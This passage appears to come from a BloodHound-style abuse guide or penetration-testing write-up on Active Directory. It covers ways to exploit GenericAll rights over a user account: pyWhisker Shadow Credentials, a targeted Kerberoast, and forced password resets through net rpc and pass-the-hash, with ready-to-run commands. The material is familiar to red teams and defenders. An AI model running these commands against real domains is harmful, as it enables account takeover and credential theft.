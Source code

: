 The recovered hash can be cracked offline using the tool of your choice.

**Shadow Credentials attack**

To abuse this permission, use [pyWhisker](https://github.com/ShutdownRepo/pywhisker).

```bash
pywhisker.py -d "domain.local" -u "controlledAccount" -p "somepassword" --target "targetAccount" --action "add"
```

For other optional parameters, view the pyWhisker documentation.

### CA_Operator (GenericAll)

Full control of a user allows you to modify properties of the user to perform a targeted kerberoast attack, and also grants the ability to reset the password of the user without knowing their current one.

**Targeted Kerberoast**

A targeted kerberoast attack can be performed using targetedKerberoast.py.

```bash
targetedKerberoast.py -v -d 'domain.local' -u 'controlledUser' -p 'ItsPassword'
```

The tool will automatically attempt a targetedKerberoast attack, either on all users or against a specific one if specified in the command line, and then obtain a crackable hash. The cleanup is done automatically as well.

The recovered hash can be cracked offline using the tool of your choice.

**Force Change Password**

Use samba's net tool to change the user's password. The credentials can be supplied in cleartext or prompted interactively if omitted from the command line. The new password will be prompted if omitted from the command line.

```bash
net rpc password "TargetUser" "newP@ssword2022" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"
```

It can also be done with pass-the-hash using pth-toolkit's net tool. If the LM hash is not known, use 'ffffffffffffffffffffffffffffffff'.

```bash
pth-net rpc password "TargetUser" "newP@ssword2022" -U "DOMAIN"/"ControlledUser"%"LMhash":"NThash" -S "DomainController"
```

Now that you know the target user's plain text password, you can either start a new agent as that user, or use that user's credentials in conjunction with PowerView's ACL abuse functions, or perhaps even RDP to a system the target user has access to. For more ideas and information, see the references tab.

**Shadow Credentials attack**

To abuse this permission, use pyWhisker.
